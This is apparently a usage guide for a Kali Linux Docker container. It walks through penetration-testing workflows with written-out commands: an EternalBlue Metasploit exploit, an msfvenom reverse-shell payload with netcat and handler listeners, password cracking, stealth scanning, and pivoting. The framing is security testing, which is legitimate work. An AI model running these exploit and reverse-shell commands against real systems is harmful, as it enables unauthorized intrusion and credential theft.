


# 🛠️ Usage Guide

This guide covers common tasks and workflows for the Kali Linux Docker containers.

## 🎯 Common Workflows



## 🔍 Security Testing Workflows

### 1. Web Application Testing



**Setup Burp Suite:**
```bash
# Launch Burp Suite with X11 forwarding
./scripts/run-gui.sh burpsuite

# Or from container terminal
docker exec -it kali-workspace burpsuite

# Configure browser to use Burp proxy
# Proxy: 127.0.0.1:8080
```

### 2. Network Scanning

**Basic Network Scan:**
```bash
# Quick scan
docker exec kali-workspace nmap -sn 192.168.1.0/24

# Service detection
docker exec kali-workspace nmap -sV -p- target.com

# Vulnerability scan
docker exec kali-workspace nmap --script vuln target.com

# Save results
docker exec kali-workspace nmap -oA /home/kali/workspace/scan_results target.com
```

**Advanced Scanning:**
```bash
# Stealth scan
docker exec kali-workspace nmap -sS -T2 -f target.com

# UDP scan
docker exec kali-workspace nmap -sU --top-ports 1000 target.com

# OS detection
docker exec kali-workspace nmap -O --osscan-guess target.com
```

### 3. Metasploit Framework

```bash
# Start Metasploit
docker exec -it kali-workspace msfconsole

# Inside MSF console
msf6 > db_status
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS target.com
msf6 > set LHOST eth0
msf6 > exploit
```

### 4. Password Cracking

```bash
# John the Ripper
docker exec kali-workspace john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Hashcat (needs GPU passthrough for best performance)
docker exec kali-workspace hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

# Generate wordlists
docker exec kali-workspace crunch 8 12 -o /home/kali/workspace/wordlist.txt
```

## 💻 Development Workflows

### 1. Security Tool Development

```mermaid
graph LR
    A[Host Machine] --> B[VS Code]
    B --> C[Edit Files]
    C --> D[./workspace/]
    D --> E[Container]
    E --> F[/home/kali/workspace]
    F --> G[Test/Run]
    G --> H[Debug]
    
    style A fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px
    style E fill:#e3f2fd,stroke:#1565c0,stroke-width:2px
```

**Setup:**
```bash
# Create project on host
mkdir -p workspace/my-security-tool
cd workspace/my-security-tool

# Edit on host
code .  # Opens in VS Code

# Test in container
docker exec -it kali-workspace /bin/bash
cd /home/kali/workspace/my-security-tool
python3 my_tool.py
```

### 2. Exploit Development

```bash
# Create exploit workspace
docker exec -it kali-workspace /bin/bash
mkdir -p ~/workspace/exploits
cd ~/workspace/exploits

# Use built-in tools
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf

# Test with GDB
gdb ./vulnerable_app
(gdb) set disassembly-flavor intel
(gdb) disas main
```

## 🔗 Network Operations

### 1. Setting Up Listeners

```bash
# Netcat listener
docker exec -it kali-workspace nc -lvnp 4444

# Metasploit handler
docker exec -it kali-workspace msfconsole -q -x "use multi/handler; set payload linux/x64/shell_reverse_tcp; set LHOST 0.0.0.0; set LPORT 4444; exploit"

# Python HTTP server
docker exec -it kali-workspace python3 -m http.server 8000
```

### 2. Tunneling and Pivoting

```bash
# SSH tunnel
docker exec -it kali-workspace ssh -D 9050 user@pivot-host

# Use proxychains
docker exec -it kali-workspace proxychains nmap -sT target.internal

# Chisel (if installed)
# Server
docker exec -it kali-workspace chisel server -p 8080 --reverse

# Client
docker exec -it kali-workspace chisel client server:8080 R:socks
```

## 📊 Reporting and Documentation

### 1. Screenshot Capture

```bash
# From X11 forwarded session
# Use built-in screenshot tool
./scripts/run-gui.sh xfce4-screenshooter

# From command line
docker exec kali-workspace import -window root /home/kali/workspace/screenshot.png

# With scrot (if installed)
docker exec kali-workspace scrot /home/kali/workspace/screen_%Y%m%d_%H%M%S.png
```

### 2. Session Recording

```bash
# Record terminal session
docker exec -it kali-workspace script -a /home/kali/workspace/session_$(date +%Y%m%d_%H%M%S).log

# Your commands here...

# Exit recording
exit

# Convert to readable format
docker exec kali-workspace cat /home/kali/workspace/session_*.log | col -b > session_clean.txt
```

## 🎨 GUI Application Usage

### Common GUI Tools

| Tool | Launch Command | Purpose |
|------|---------------|---------|
| Burp Suite | `burpsuite` | Web app testing |
| Wireshark | `wireshark` | Packet analysis |
| OWASP ZAP | `zaproxy` | Web security scanner |
| Ettercap | `ettercap -G` | MITM attacks |
| Maltego | `maltego` | OSINT framework |
| Armitage | `armitage` | Metasploit GUI |

### Window Management

```bash
# Using tmux for multiple terminals
docker exec -it kali-workspace tmux new -s main

# Split panes
# Ctrl+B then % (vertical split)
# Ctrl+B then " (horizontal split)
# Ctrl+B then arrow keys (navigate)

# New window: Ctrl+B then C
# Switch windows: Ctrl+B then number
```

## 🔄 Automation

### 1. Scripted Workflows

```bash
# Create automation script
cat > workspace/auto_scan.sh << 'EOF'
#!/bin/bash
TARGET=$1
OUTPUT_DIR="/home/kali/workspace/scans/$(date +%Y%m%d_%H%M%S)_${TARGET}"
mkdir -p "$OUTPUT_DIR"

echo "[*] Scanning $TARGET"
nmap -sV -sC -oA "$OUTPUT_DIR/nmap_scan" "$TARGET"
nikto -h "http://$TARGET" -o "$OUTPUT_DIR/nikto_scan.txt"
dirb "http://$TARGET" /usr/share/wordlists/dirb/common.txt -o "$OUTPUT_DIR/dirb_scan.txt"

echo "[+] Scan complete. Results in $OUTPUT_DIR"
EOF

chmod +x workspace/auto_scan.sh

# Run it
docker exec kali-workspace /home/kali/workspace/auto_scan.sh target.com
```

### 2. Scheduled Tasks

```bash
# Add cron job inside container
docker exec -it kali-workspace /bin/bash
crontab -e

# Add scheduled scan (daily at 2 AM)
0 2 * * * /home/kali/workspace/auto_scan.sh target.com
```

## 💾 Data Management

### Backup Workspace

```bash
# From host
tar -czf kali_workspace_backup_$(date +%Y%m%d).tar.gz workspace/

# Restore
tar -xzf kali_workspace_backup_20250115.tar.gz
```

### Transfer Files

```bash
# Copy to container
docker cp localfile.txt kali-workspace:/home/kali/

# Copy from container
docker cp kali-workspace:/home/kali/results.txt ./

# Using Python HTTP server
# In container:
docker exec -it kali-workspace python3 -m http.server 8000

# From host:
curl -O http://localhost:8000/file.txt
```

## 🎯 Best Practices

1. **Always work in `/home/kali/workspace`** - It's persistent
2. **Save configurations in `/home/kali/.config`** - Also persistent
3. **Use tmux/screen** for long-running processes
4. **Document your commands** with `script` command
5. **Regular backups** of important findings
6. **Use version control** for custom scripts
7. **Check tool updates** regularly

## 🔧 Customization

### Add Custom Tools

```bash
# Create custom tools directory
mkdir -p workspace/custom-tools

# Example: Install custom Python tool
docker exec -it kali-workspace /bin/bash
cd /home/kali/workspace/custom-tools
git clone https://github.com/user/tool.git
cd tool
pip3 install -r requirements.txt
```

### Shell Aliases

```bash
# Add to ~/.bashrc or ~/.zshrc
docker exec -it kali-workspace /bin/bash
echo "alias ll='ls -la'" >> ~/.zshrc
echo "alias scan='nmap -sV'" >> ~/.zshrc
echo "alias serve='python3 -m http.server'" >> ~/.zshrc
source ~/.zshrc
```

## 📈 Performance Tips

1. **Use CLI when possible** - Faster than GUI
2. **Limit concurrent scans** - Prevents overload
3. **Use workspace directory** - Faster than container root
4. **Close unused GUI apps** - Frees memory
5. **Monitor resources** - `docker stats`

---

**Need more help? Check [TROUBLESHOOTING.md](./TROUBLESHOOTING.md) or the specific tool documentation.**